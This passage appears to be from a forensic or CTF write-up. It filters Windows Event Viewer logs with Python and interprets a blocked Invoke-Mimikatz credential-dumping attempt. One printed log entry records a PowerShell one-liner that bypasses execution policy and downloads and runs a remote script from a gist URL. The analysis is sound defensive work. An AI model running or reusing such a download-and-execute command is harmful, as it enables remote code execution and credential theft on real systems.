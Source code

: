 


```python
index = 0
for message in cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["Message"].iloc[:3]:
    index += 1
    print(f"MESSAGE {index}\n{message}\n")
```

    MESSAGE 1
    Error Message = At line:1 char:1
    + function Invoke-Mimikatz
    + ~~~~~~~~~~~~~~~~~~~~~~~~
    This script contains malicious content and has been blocked by your antivirus software.
    Fully Qualified Error ID = ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
    
    
    Context:
            Severity = Warning
            Host Name = ConsoleHost
            Host Version = 5.1.17763.1
            Host ID = b9c1b4df-8e46-4c7e-8691-af4dbca27453
            Host Application = powershell -ep bypass -c iex(new-object net.webclient).downloadstring('https://gist.githubusercontent.com/phwRi7EUp/146c73e8d28eab5c8b546861e06226e7/raw/881106760796a219711035fba797bafe76f22368/SFRCezhMdTNfNzM0bV9GMHIzdjNSfSAg.ps1');
            Engine Version = 5.1.17763.1
            Runspace ID = 88aaf2d8-fc40-40bf-8912-af97dbf95eeb
            Pipeline ID = 1
            Command Name = Invoke-Expression
            Command Type = Cmdlet
            Script Name = 
            Command Path = 
            Sequence Number = 15
            User = WIN-PTFPHFCRDJ0\user
            Connected User = 
            Shell ID = Microsoft.PowerShell
    
    
    User Data:
    
    
    
    MESSAGE 2
    PowerShell console is ready for user input
    
    MESSAGE 3
    Windows PowerShell has started an IPC listening thread on process: 2256 in AppDomain: DefaultAppDomain.
    


Inspecting the 3 first Event Viewer log messages for records which provider name was Microsoft-Windows-PowerShell disclosed that there was indeed some malicious activity. The first inspected message contained the following information: <br><br>
**Error Message = At line:1 char:1 <br>
\+ function Invoke-Mimikatz <br>
\+ \~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~ <br>
This script contains malicious content and has been blocked by your antivirus software.** <br><br>
This is a clear trace of the attackers trying to capture plaintext credentials on the system.
